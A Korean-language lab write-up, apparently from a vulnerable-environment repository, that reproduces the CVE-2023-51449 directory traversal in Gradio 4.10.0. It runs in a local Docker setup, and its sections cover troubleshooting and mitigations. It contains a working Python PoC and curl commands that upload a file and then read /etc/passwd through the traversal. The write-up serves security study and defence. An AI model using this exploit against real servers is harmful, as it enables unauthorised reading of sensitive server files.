







# CVE-2023-51449 - Gradio /file 엔드포인트 디렉터리 트래버설 취약점 분석

## 목차

1. [취약점 요약](#1-취약점-요약)
2. [환경 구성](#2-환경-구성)
3. [취약 조건](#3-취약-조건)
4. [재현 절차](#4-재현-절차)
5. [PoC 코드](#5-poc-코드)
6. [실행 결과](#6-실행-결과)
7. [시행착오 및 해결 과정](#7-시행착오-및-해결-과정)
8. [대응 방안](#8-대응-방안)
9. [환경 종료](#9-환경-종료)
10. [정리](#10-정리)


---

## 1. 취약점 요약

Gradio는 Python 기반 웹 인터페이스를 빠르게 만들 수 있도록 도와주는 라이브러리이다. CVE-2023-51449는 Gradio의 `/file` 엔드포인트에서 발생하는 디렉터리 트래버설 취약점이다.

취약한 버전에서는 인증이 비활성화되어 있고, 공격자가 업로드된 파일의 서버 내부 경로를 알 수 있을 경우 `../` 경로를 이용해 허용된 디렉터리 밖의 파일에 접근할 수 있다.

이번 실습에서는 Docker Compose를 이용해 Gradio 4.10.0 취약 환경을 구성하고, `/upload` 엔드포인트로 파일을 업로드한 뒤 `/file` 엔드포인트를 통해 컨테이너 내부의 `/etc/passwd` 파일을 읽는 방식으로 취약점을 재현하였다.

| 항목 | 내용 |
|---|---|
| CVE | CVE-2023-51449 |
| 대상 | Gradio 4.10.0 |
| 취약 유형 | Directory Traversal, SSRF |
| 영향 | 서버 내부 파일 읽기 |
| Risk Score | 7.5 / 10.0 |
| Reproducibility | 80% |

---

## 2. 환경 구성

실습은 Windows 환경에서 Docker Desktop과 PowerShell을 사용하여 진행하였다. 취약 환경은 `kr-vulhub` 저장소의 `Gradio/CVE-2023-51449` 디렉터리에서 Docker Compose로 실행하였다.

```powershell
cd C:\Users\carat\Documents\kr-vulhub\Gradio\CVE-2023-51449
docker compose up -d
```

실행 결과 `vulhub/gradio:4.10.0` 이미지가 다운로드되었고, `cve-2023-51449-web-1` 컨테이너가 정상적으로 시작되었다.



브라우저에서 아래 주소로 접속했을 때 Gradio 웹 페이지가 정상적으로 열리는 것을 확인하였다.

```text
http://127.0.0.1:7860
```



---

## 3. 취약 조건

이번 취약점이 재현되기 위해서는 다음 조건이 필요하다.

1. Gradio 취약 버전 사용
2. 인증이 비활성화된 상태
3. `/upload` 및 `/file` 엔드포인트 접근 가능
4. 업로드된 파일의 서버 내부 경로 확인 가능
5. `/file` 엔드포인트에서 경로 검증이 충분히 이루어지지 않음

실습 환경에서는 Gradio 4.10.0을 사용했고, 기본적으로 인증이 설정되어 있지 않았다. 따라서 파일 업로드 후 응답으로 반환된 `/tmp/gradio/...` 경로를 기준으로 디렉터리 트래버설을 수행할 수 있었다.

---

## 4. 재현 절차

먼저 테스트용 파일을 생성하였다.

```powershell
"123456" | Out-File -Encoding ascii test.txt
```

이후 `/upload` 엔드포인트로 파일을 업로드하였다.

```powershell
curl.exe -i -X POST "http://127.0.0.1:7860/upload" -F "files=@test.txt"
```

업로드 응답에서 다음과 같은 서버 내부 파일 경로를 확인하였다.

```text
/tmp/gradio/685414bd2b15a3a5a0eb6dc204f142656ec4ad26/test.txt
```



그 다음 확보한 경로를 기준으로 `../`를 반복하여 상위 디렉터리로 이동한 뒤, `/etc/passwd` 파일에 접근하였다.

이때 `curl`이 경로를 자동 정규화하지 않도록 `--path-as-is` 옵션을 사용하였다.

```powershell
curl.exe --path-as-is -i "http://127.0.0.1:7860/file=/tmp/gradio/685414bd2b15a3a5a0eb6dc204f142656ec4ad26/../../../../../../../../../../../../../../../etc/passwd"
```

---

## 5. PoC 코드

이번 실습에서는 PowerShell의 `curl.exe` 명령으로 취약점을 먼저 재현하였다. 또한 동일한 과정을 자동화할 수 있도록 아래와 같은 PoC 코드를 작성할 수 있다.

```python
import argparse
import requests

def main():
    parser = argparse.ArgumentParser(
        description="CVE-2023-51449 Gradio /file directory traversal PoC"
    )
    parser.add_argument(
        "base_url",
        help="Target base URL, e.g. http://127.0.0.1:7860"
    )
    parser.add_argument(
        "--file",
        default="test.txt",
        help="File to upload"
    )

    args = parser.parse_args()
    base_url = args.base_url.rstrip("/")

    with open(args.file, "rb") as f:
        upload_response = requests.post(
            f"{base_url}/upload",
            files={"files": (args.file, f, "application/octet-stream")},
            timeout=10,
        )

    print("[*] Upload status:", upload_response.status_code)
    print("[*] Upload response:", upload_response.text)

    uploaded_path = upload_response.json()[0]
    upload_dir = uploaded_path.rsplit("/", 1)[0]

    traversal_path = (
        f"{upload_dir}/../../../../../../../../../../../../../../../etc/passwd"
    )
    target_url = f"{base_url}/file={traversal_path}"

    print("[*] Request URL:", target_url)

    exploit_response = requests.get(target_url, timeout=10)

    print("[*] Exploit status:", exploit_response.status_code)
    print(exploit_response.text)

if __name__ == "__main__":
    main()
```

실행 방법은 다음과 같다.

```powershell
python poc.py http://127.0.0.1:7860
```

수동 PoC 명령어는 다음과 같다.

```powershell
"123456" | Out-File -Encoding ascii test.txt

curl.exe -i -X POST "http://127.0.0.1:7860/upload" -F "files=@test.txt"

curl.exe --path-as-is -i "http://127.0.0.1:7860/file=/tmp/gradio/685414bd2b15a3a5a0eb6dc204f142656ec4ad26/../../../../../../../../../../../../../../../etc/passwd"
```

`--path-as-is` 옵션은 `../` 경로가 `curl`에 의해 정규화되지 않고 서버에 그대로 전달되도록 하기 위해 사용하였다.

---

## 6. 실행 결과

`/file` 엔드포인트에 디렉터리 트래버설 경로를 포함하여 요청한 결과 `HTTP/1.1 200 OK` 응답이 반환되었다. 응답 본문에는 컨테이너 내부의 `/etc/passwd` 파일 내용이 포함되어 있었다.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

이를 통해 `/file` 엔드포인트가 업로드 디렉터리 밖의 파일에도 접근할 수 있음을 확인하였다. 즉, 공격자는 업로드된 파일의 서버 내부 경로를 확보한 뒤 디렉터리 트래버설을 이용하여 서버 내부 민감 파일을 읽을 수 있다.



---

## 7. 시행착오 및 해결 과정

실습 과정에서 몇 가지 시행착오가 있었다. 이를 함께 기록하여 같은 환경에서 재현하는 사람이 어떤 부분을 주의해야 하는지 확인할 수 있도록 하였다.

### 7.1 PowerShell에서 URL을 직접 입력한 문제

Gradio 서버가 실행된 뒤 처음에는 PowerShell에 아래 URL을 그대로 입력하였다.

```powershell
http://127.0.0.1:7860
```

하지만 PowerShell은 URL을 브라우저 주소가 아니라 실행할 명령어로 해석하기 때문에 `CommandNotFoundException` 오류가 발생하였다.

해결 방법은 브라우저 주소창에 직접 URL을 입력하거나, PowerShell에서 다음 명령을 사용하는 것이다.

```powershell
start http://127.0.0.1:7860
```



### 7.2 `/file` 요청에서 404 Not Found가 발생한 문제

업로드 응답에서 `/tmp/gradio/.../test.txt` 경로를 확보한 뒤, 처음에는 다음과 같이 `/file` 엔드포인트에 디렉터리 트래버설 경로를 포함하여 요청하였다.

```powershell
curl.exe -i "http://127.0.0.1:7860/file=/tmp/gradio/685414bd2b15a3a5a0eb6dc204f142656ec4ad26/../../../../../../../../../../etc/passwd"
```

그러나 응답은 `HTTP/1.1 404 Not Found`였다.

```text
{"detail":"Not Found"}
```



원인은 `curl`이 URL 경로의 `../` 부분을 클라이언트 측에서 정규화할 수 있기 때문이다. 디렉터리 트래버설 취약점을 재현하려면 `../` 경로가 서버에 그대로 전달되어야 한다.

이를 해결하기 위해 `--path-as-is` 옵션을 추가하였다.

```powershell
curl.exe --path-as-is -i "http://127.0.0.1:7860/file=/tmp/gradio/685414bd2b15a3a5a0eb6dc204f142656ec4ad26/../../../../../../../../../../../../../../../etc/passwd"
```

그 결과 `HTTP/1.1 200 OK` 응답과 함께 `/etc/passwd` 파일 내용이 출력되었다.

### 7.3 업로드 파일 경로가 매번 달라질 수 있는 문제

`/upload` 요청을 수행하면 서버는 다음과 같은 경로를 반환한다.

```text
/tmp/gradio/685414bd2b15a3a5a0eb6dc204f142656ec4ad26/test.txt
```

여기서 해시처럼 보이는 디렉터리 이름은 환경이나 실행 시점에 따라 달라질 수 있다. 따라서 README 예시에 있는 경로를 그대로 복사하는 것이 아니라, 실제 업로드 응답에서 반환된 경로를 기준으로 `/file` 요청을 만들어야 한다.

재현 과정은 다음 순서를 지켜야 한다.

1. `/upload`로 파일 업로드
2. 응답에서 `/tmp/gradio/.../test.txt` 경로 확인
3. 해당 경로에서 파일명 `test.txt`를 제외한 디렉터리 경로 사용
4. `../../.../etc/passwd`를 붙여 `/file` 엔드포인트에 요청

---

## 8. 대응 방안

이 취약점을 방어하기 위해서는 우선 Gradio를 취약점이 패치된 버전으로 업데이트해야 한다. 또한 `/file` 엔드포인트에서 사용자 입력으로 전달되는 경로를 그대로 신뢰하지 않고, 정규화 후 허용된 디렉터리 내부인지 검증해야 한다.

대응 방안은 다음과 같다.

1. Gradio를 최신 패치 버전으로 업그레이드한다.
2. Gradio 애플리케이션에 인증을 적용한다.
3. `/file` 엔드포인트에 대한 외부 접근을 제한한다.
4. 사용자 입력 경로를 정규화하고, 허용된 디렉터리 내부 파일만 제공한다.
5. 컨테이너 내부의 민감 파일 권한을 최소화한다.
6. 외부 공개 환경에서는 reverse proxy, 접근 제어, 로그 모니터링을 적용한다.

---

## 9. 환경 종료

실습이 끝난 뒤 Docker Compose 환경을 종료하였다.

```powershell
docker compose down
```

실행 결과 `cve-2023-51449-web-1` 컨테이너와 `cve-2023-51449_default` 네트워크가 정상적으로 삭제되었다.



---

## 10. 정리

이번 실습을 통해 Docker Compose를 이용하면 취약한 버전의 서비스를 독립된 환경에서 안전하게 실행하고 분석할 수 있다는 점을 확인하였다.

또한 단순한 파일 업로드 기능이라도 업로드 경로가 노출되고 파일 제공 엔드포인트의 검증이 부족하면 서버 내부 파일 읽기 취약점으로 이어질 수 있다는 점을 이해할 수 있었다.

처음에는 `/file` 요청에서 `404 Not Found`가 발생했지만, `curl --path-as-is` 옵션을 사용하자 `../` 경로가 서버에 그대로 전달되었고 `/etc/passwd` 파일을 읽을 수 있었다. 이 과정을 통해 디렉터리 트래버설 취약점에서는 서버의 경로 검증뿐만 아니라 클라이언트가 요청 경로를 어떻게 처리하는지도 재현 과정에서 중요하다는 것을 알 수 있었다.

---


